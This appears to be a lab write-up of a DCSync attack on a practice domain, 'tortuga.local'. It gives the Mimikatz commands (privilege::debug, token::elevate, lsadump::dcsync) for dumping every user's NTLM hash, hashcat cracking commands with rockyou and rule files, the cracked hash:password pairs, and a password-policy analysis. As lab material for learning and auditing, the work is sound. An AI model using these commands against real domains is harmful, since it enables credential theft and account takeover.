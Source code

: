 # DCsync Password Cracking
>> Performing a DC (Domain Control) sync pentest.

## Performing the DCSync.
- Using the administrator password obtained from the previous lab, I was able to gain access into the tortuga DC VM and load the Mimikatz trunk onto its desktop.

![img](https://github.com/elisims/DCsync/raw/main/images/1.jpg)

- Next, using the x64 version of mimikatz, I launched powershell from the file menu.

![img](https://github.com/elisims/DCsync/raw/main/images/2.jpg)

- With PowerShell open, I then launched Mimikatz using the command “./mimikatz.exe”. 
> -  NOTE: I used PowerShell instead of the default cmd launcher because of the limitations the default
cmd presents- While PowerShell is powerful and flexible

![img](https://github.com/elisims/DCsync/raw/main/images/3.jpg)

- I then used the mimikatz command “privilege::debug” to get “god tier” (debug) privileges, and then used those privileges to elevate my token using the mimikatz command “token::elevate”.

![img](https://github.com/elisims/DCsync/raw/main/images/4.jpg)

- Once I had elevated my privilege enough to access the password hashes through the DCSync, I used the command “lsadump::dcsync /domain:tortuga.local /all /csv”. This command dumps all the users within the tortuga.local domain along with their password hashes.

![img](https://github.com/elisims/DCsync/raw/main/images/5.jpg)

- Here’s the full output received from the previously discussed command:

```console
mimikatz # lsadump::dcsync /domain:tortuga.local /all /csv
[DC]
[DC]
[DC]"	"'tortuga.local' will be the domain 'dc01.tortuga.local' will be the DC server
Exporting domain 'tortuga.local'"	
1105	"U478384 0db3396a227ae978162e28d9f8bf3ff2"	66048
1106	"U724564 0bc2cd56aff62e231df637c9997f5db5"	66048
"… … …
1292"	"…
      "U472136 5437b3d561e5b3c302b8ea8f11aef318"	66048
1293	"U529036 3e202fa49136e93508b79bfca232479d"	66048
1294	"U328628 ad5e3408db1ea42441c755715c0c52a6"	66048
1295	"U879436 136ff21d05e3ad70135dc48884e81357"	66048
1296	"U858483 82fb725d156e9179063796dcc45d062a"	66048
1297	"U532495 3237a4cea1efc18fb4394dd41b7dd95d"	66048
1298	"U104961 2805976fa86da938b8b5209a0e73af75"	66048
1299	"U957087 3dbe233471445dbb58b72b95d80c71e7"	66048
1300	"U556079 bba37cb6350910920f27e495aac2d16c"	66048
1301	"U153711 6ba4fd921fa7ecdcc7ac2fe902b0657e"	66048
1302	"U786240 873333e2f8b3e477e840ffe5e77b2003"	66048
1303	"U348616 d64e61a36e000d77a5a1c98fbfe2ce6a"	66048
1304	"U786462 401511cbba86d51f9cd606b83a07d6d9"	66048
1305	"U594663 0ad8fb266a0e5921ebb56854200c6634"	66050
1309	"U257439 91e243f81613c8d3e7db88281c219a09"	66048
1310	"U478245 2d981fdd1f23a2085b7f331e856ab3a3"	590336
1311	"U951863 61b50ceaaa6fba36e9a2d2a85894044e"	17367552
1312	"U836158 ada363ecd153b172ecb664d8916af28d"	66176
1313	"U289311 018e5053ee63ea9da526bfdb51440022"	2097792
1314	"U697137 0f8389a06623ffeb4f866d2b1ba250d1"	640
1315	"U151654 cf3a5525ee9414229e66279623ed5c58"	640
1316	"U371973 cac3a73c02d89fd62392800815e0f425"	4194944
1306	"U891212 26b944d9d6872c12b41d75c39056c35e"	66048
1308	"U323582 09e0198d7ee73c264eb96bfadaa99d56"	66048
502	  "krbtgt  a3f657d01cd6a1f46a1ac36df545bf3b"	514
1320	"U536554 6f22b98d3db9991032ae6f267c0c2753"	672
1319	"wturner 793243be0762ce949633b1bf8c61de59"	66048
1317	"U787486 cac3a73c02d89fd62392800815e0f425"	672
1002	"DC01$   69fc65112f604d0f3c3c7e50d821c398"	532480
500	  "Admin   39d633e9c3fd963d603f131bf42d7ce8"
```

- Once I had all 214 usernames and password hashes for the tortuga.local domain, I moved the data to my attacker VM (Kali Linux distro). On this VM, I edited the data down to two
separate files; 
> - 1. Hashes only named “hashesonly.hashcat” and 
> - 2. Hashes with usernames"named “hashlist.hashcat. 
- Though I could use either of these files, the main file I used for cracking the passwords was the hashes only version.
- I then moved a copy of the “rockyou.txt” wordlist to the desktop and created a new file of the top-5000 words from the rockyou wordlist. This would simplify the use of flags to limit the word usage within the hashcat program itself.

![img](https://github.com/elisims/DCsync/raw/main/images/6.jpg)

## Cracking the hashes.
- Once the setup of the files had been completed, I moved on to using hashcat to start cracking the passwords. I started by running the hashesonly.hashcat files against the
rockyou.txt wordlist straight up with no other rules or flags.

```console
┌──(kali㉿kali)-[~/Desktop]
└─$  hashcat  -m 1000 -a 0 -o outfile.txt hashesonly.hashcat rockyou.txt
```

```console
Session..........: hashcat 
Status...........: Exhausted 
Hash.Name........: NTLM 
Hash.Target......: hashesonly.hashcat 
Time.Started.....: Sat Apr 3 13:50:14 2021 (3 secs) 
Time.Estimated...: Sat Apr 3 13:50:17 2021 (0 secs) 
Guess.Base.......: File (rockyou.txt) 
Guess.Queue......: 1/1 (100.00%) 
Speed.#1.........: 3895.5 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8 
Recovered........: 3/213 (1.41%) 
Digests Progress.........: 14344385/14344385 (100.00%) 
Rejected.........: 0/14344385 (0.00%) 
Restore.Point....: 14344385/14344385 (100.00%) 
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1 
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> 
$HEX[042a0337c2a156616d6f732103]
```

- This initial test was quick, but only resulted in the successful cracking of 3 password hashes. I then used the “-k ‘$!’” flag to do a more advanced cracking of the passwords, checking for an “!” at the end of the passwords along with more combinations of two wordlists (both being rockyou.txt). This resulted in the finding of 17 more password hashes. And so I added the flag “-j ‘$-’” but was unfortunately not met with success. It wasn’t until I started using rules (“-r” with a path to the directory the file resides), that I was able to crack more passwords. The rules I ended up using were the “best64” (/usr/share/hashcat/rules/best64) and “dive” (/usr/share/hashcat/rules/dive).

```console
┌──(kali㉿kali)-[~/Desktop] 
└─$ hashcat hashesonly.hashcat -l 5000 -m 1000 -d 1 -k '$!' -a 1 
rockyou.txt rockyou.txt
```

```console
"INFO: Removed 3 hashes found in potfile.
Host memory required for this attack: 65 MB"	
		
"Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 205761381028225"		
		
"d64e61a36e000d77a5a1c98fbfe2ce6a:robertnicole07! 
ad5e3408db1ea42441c755715c0c52a6:zxcvbnmdallas12! 
32e9f9d0e79d4a661043d0fc6b0f0ce5:696969nicole89! 
8dfa93732ca48b1cc07946a4c786b924:gingerjoshua24! 
b361cf06d471f7b0ee54476d42fcc4fc:killerdragon86! 
cc98d098e89d294238d1b961e59c9e4f:qwertyuiopbuster45! 
5dcd7d41ee9dc5a3cfff92365dfff543:joshua123441! 
dc7b6ea42f6b7704c516a3a7172332c6:buster696907!
80f787e27b392374761c493133b6eb18:123123master68!
c7bbe6101e1c495329861712c45dc719:000000dragon51! 
c25a4236f838bfac372ea0f55fef6c4e:555555freedom48! 
cd2a722f9de2457286338c6b6c55a93f:nicoleaustin51! 
800ee86daccd73012afd749d9d89fc41:zxcvbnmqazwsx46! 
3572e91ae1d17ec6864e8297244b7701:777777asshole58! 
c01846e91a23ffb62255fd23b6da4ed5:freedom200097! 
e4b9b463edff8b4ec4c5d0fca14fa974:matrix13131315! 
6e1ece1bb9fb5bfb1c6aaa302b2dd059:1qaz2wsxsunshine32!"
```

- After many hours of my computer being throttled (95-98% RAM usage), I was able to find 25 passwords from the hashes obtained from the DCSync. After some collaboration with fellow cybersecurity professionals, we collectively found 27 unique passwords from the original 214 hashes. Here’s the list of the hashes found:

![img](https://github.com/elisims/DCsync/raw/main/images/7.png)

## Password Analysis
- The last part of auditing passwords is the analysis (or processing) of the passwords obtained. This is necessary in order to illustrate the weaknesses in the password policy and give a visual aid to everyone within the company to realize the severity of these vulnerabilities.
- The first tool I used to do this analysis is called “pack” and was downloaded at “https://github.com/iphelix/pack”."

```console
┌──(kali
└─$  python  statsgen.py  ~/Desktop/passwords.txt
_ StatsGen 0.0.3 | |
 _         _     | | _
| '_ \ / _` |/   | |/ /
| |_) | (_| | (  |   <
| .  / \  ,_|\   |_|\_\
| |
|_| iphelix@thesprawl.org"
"[*] Analyzing passwords in [/home/kali/Desktop/passwords.txt] [+] Analyzing 100% (27/27) of passwords
NOTE: Statistics below is relative to the number of analyzed passwords, not total number of passwords"
"[*] Password complexity:
[+]                   digit: min(0) max(11)
[+]                   lower: min(4) max(16)
[+]                   upper: min(0) max(2)
[+]                 special: min(0) max(1)
[*] Simple Masks:
[+]       stringdigitspecial: 51% (14)"
"[*]
[+]"	"Length:"	"15:"	0.370000	-10
"[+]"		"16:"	0.140000	-4
"[+]"		"13:"	0.110000	-3
"[+]"		"10:"	0.070000	-2
"[+]"		"14:"	0.070000	-2
"[+]"		"17:"	0.070000	-2
"[+]"		"19:"	0.070000	-2
"[+]"		"8:"	0.030000	-1
"[+]"		"20:"	0.030000	-1
"[*]"	"Character-set:"		
"[+]"	"loweralphaspecialnum:"	0.740000	-20
"[+]"	"all:"	0.110000	-3
"[+]"	"mixedalphanum:"	0.070000	-2
"[+]"	"mixedalphaspecial:"	0.070000	-2
"[+]"	"othermask:"	0.330000	-9	
"[+]"	"stringspecial:"	0.070000	-2	
"[+]"	"stringdigit:"	0.070000	-2	
```

- The second tool I used to do this analysis is called “password-analyzer” and was downloaded at “https://github.com/dank-panda/password-analyzer.py”.



- Separately, these tools don’t provide the most visually appealing output, however, when graphing this data in a program like Microsoft Excel or Google Sheets- The illustration becomes powerful and visually pleasing.
